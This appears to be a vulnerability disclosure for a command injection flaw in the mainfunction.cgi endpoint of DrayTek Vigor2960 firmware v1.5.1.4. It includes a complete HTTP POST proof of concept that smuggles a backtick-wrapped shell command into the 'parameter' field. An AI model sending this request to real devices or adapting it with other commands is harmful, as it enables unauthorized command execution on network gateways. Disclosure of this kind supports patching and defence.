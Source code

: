 # DeryTek Vigor2960 V1.5.1.4 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: DrayTek (https://www.draytek.com/)
- **Products**: VPN Gateway
- **Firmware download address**: https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Description

### 1.Product Information:

DeryTek Vigor2960 V1.5.1.4 VPN Gateway
![](img/1.jpg)

### 2. Vulnerability details

DeryTek Vigor2960 V1.5.1.4 was discovered to contain a command injection vulnerability in the mainfunction.cgi. This vulnerability allows attackers to execute arbitrary commands via the 'parameter' parameter.

![](img/21.jpg)
![](img/22.jpg)

We can see that the os will get `parameter` Not filtering the '`' . So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 57
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SESSION_ID_VIGOR=
Connection: close

action=commandTable&command=14&parameter=`touch test.txt`
```

![](img/31.jpg)
